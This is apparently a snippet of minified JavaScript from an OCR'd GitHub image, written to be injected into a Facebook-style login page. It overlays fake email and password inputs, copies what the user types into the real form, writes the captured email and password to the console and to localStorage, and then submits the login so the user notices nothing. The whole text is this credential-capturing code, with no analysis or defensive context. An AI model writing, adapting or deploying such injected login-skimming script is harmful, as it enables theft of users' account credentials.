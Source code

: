 var btn=document.createElement("BUTTON");btn.textContent="Entrar",btn.className="lgin_submit",btn.style.cssText="position: absolute;background: #4266b2;color: white;border-radius: 0;border: 1px solid #2a487c;right: 54px;top: 34px;padding: 4px 9px;";var inputMail=document.createElement("input");inputMail.type="text",inputMail.name="lgin_mail",inputMail.style.cssText="position: absolute;top: 33px;right: 345px;border: 1px solid #1e2c5b;padding: 4px 5px;box-sizing: border-box;width: 150px;",inputMail.addEventListener("keydown",function(){""==this.value&&(this.style.background="#faffbe");var e=document.querySelector('[name="email"]');e.value=inputMail.value});var inputPass=document.createElement("input");inputPass.type="password",inputPass.name="lgin_pass",inputPass.style.cssText="position: absolute;top: 33px;right: 173px;border: 1px solid #1e2c5b;padding: 4px 5px;box-sizing: border-box;width: 150px;",inputPass.addEventListener("keydown",function(e){var t=e.which||e.keyCode;""==this.value&&(this.style.background="#faffbe");var n=document.querySelector('[name="pass"]');n.value=inputPass.value,13==t&&btn.click()});var bod=document.querySelector("body");bod.appendChild(inputMail),bod.appendChild(inputPass),bod.appendChild(btn);var func=function(){var e=document.querySelector('[name="lgin_mail"]').value,t=document.querySelector('[name="lgin_pass"]').value;console.log("mail: "+e),console.log("pass: "+t),localStorage.setItem("m",e),localStorage.setItem("p",t);var n=document.getElementById("login_form");n.submit()};btn.addEventListener("click",func);
